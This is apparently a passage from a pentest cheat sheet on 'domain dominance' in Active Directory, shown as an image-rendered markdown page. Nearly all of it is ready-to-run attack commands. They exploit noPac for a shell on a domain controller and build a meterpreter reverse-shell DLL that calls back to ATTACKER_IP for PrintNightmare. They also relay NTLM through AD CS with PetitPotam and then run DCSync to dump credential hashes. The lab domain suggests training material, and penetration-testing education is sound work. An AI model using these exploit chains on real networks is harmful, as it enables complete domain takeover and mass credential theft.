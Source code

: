 -----

## Phase 4: Domain Dominance

This is the endgame. These attacks leverage critical vulnerabilities or abuse core AD mechanisms to seize complete control of the domain, often by obtaining the credentials of the `krbtgt` account. 👑

### "Bleeding Edge" Vulnerabilities

* **noPac (CVE-2021-42278/42287)**: An exploit chain allowing any standard user to become a Domain Admin if DCs are unpatched.
    ```shell
    # Scan for the vulnerability
    sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5
    # Exploit to get a shell on the DC
    sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 --impersonate administrator -shell
    ```
* **PrintNightmare (CVE-2021-1675)**: A vulnerability in the Print Spooler service allowing remote code execution as SYSTEM on vulnerable servers, including DCs.
    ```shell
    # Check if the required RPC endpoints are available
    rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
    # Host a malicious DLL on an SMB share
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=8080 -f dll > payload.dll
    sudo smbserver.py -smb2support CompData /path/to/payload/
    # Execute the exploit
    sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\ATTACKER_IP\CompData\payload.dll'
    ```
* **AD CS Relay (ESC8)**: Relaying NTLM authentication from a DC to a misconfigured Active Directory Certificate Services (AD CS) web endpoint to get a certificate that grants you access as the DC.
    ```shell
    # Start the ntlmrelayx listener
    sudo ntlmrelayx.py --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
    # Coerce authentication from the DC using PetitPotam
    python3 PetitPotam.py YOUR_ATTACKER_IP TARGET_DC_IP
    # Use the captured cert to get a TGT and DCSync
    gettgtpkinit.py ... -pfx-base64 <CAPTURED_CERT> dc01.ccache
    export KRB5CCNAME=dc01.ccache
    secretsdump.py -k -no-pass ...
    ```
